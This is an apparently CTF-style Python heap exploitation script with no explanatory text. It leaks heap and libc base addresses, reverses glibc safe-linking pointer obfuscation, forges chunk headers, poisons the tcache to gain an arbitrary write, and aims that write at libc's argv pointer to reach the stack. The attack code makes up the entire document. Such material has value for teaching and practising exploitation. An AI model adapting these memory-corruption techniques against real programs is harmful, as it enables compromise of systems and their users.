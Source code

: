 ```python


def exploit():
    create(0, 24)
    create(1, 24)

    free(0)
    free(1)
    create(0, 24)
    view(0)
    ru(b"Data: ")
    heap_base = defuscate(u64(r(6).ljust(8, b"\x00"))) + 0x562C4DACE000 - 0x562C4DACE2A0
    # heap_base = u64(r(5).ljust(8, b"\x00")) << 12
    info(f"heap: {hex(heap_base)}")
    free(0)
    create(0, 24)
    for i in range(8):
        create(i, 0xF8)
    for i in range(7, -1, -1):
        free(i)

    create(0, 32)
    view(0)
    ru(b"Data: ")
    libc.address = u64(r(6).ljust(8, b"\x00")) - 0x203C10
    logbase()
    create(0, 0xF8 - 32)
    for i in range(1, 8):
        create(i, 0xF8)

    create(0, 24)
    create(0, 0xD0 - 8)
    create(0, 0x100 - 0x30)

    target = obfuscate(heap_base + 0x100, heap_base)
    create(8, 0x38)
    offset = 0xCA0
    address = offset + heap_base
    write_into(8, p64(0) + p64(0x60) + p64(address) + p64(address))

    create(9, 0x28)
    create(10, 0xF8)
    create(11, 24)
    write_into(9, b"\x00" * (0x28 - 8) + p64(0x60))
    for i in range(7, 0, -1):
        free(i)
    free(10)
    create(12, 0xD8)
    create(13, 0x28)
    free(13)
    free(9)
    write_into(12, p64(0) * 5 + p64(0x31) + p64(target)[:7])
    create(13, 0x28)

    libc_argv = libc.address + 0x2046E0
    stack_offset = 0x7FFE1EBBF2A8 - 0x7FFE1EBBF258 - 8
    info(f"libc_argv: {hex(libc_argv)}")
    create(14, 0x28)
    input("write")
    stack_offset = 0x7FFE1EBBF2A8 - 0x7FFE1EBBF258 - 8
    write_into(14, p64(libc_argv))
    input()
    create(0, 0xF8)
```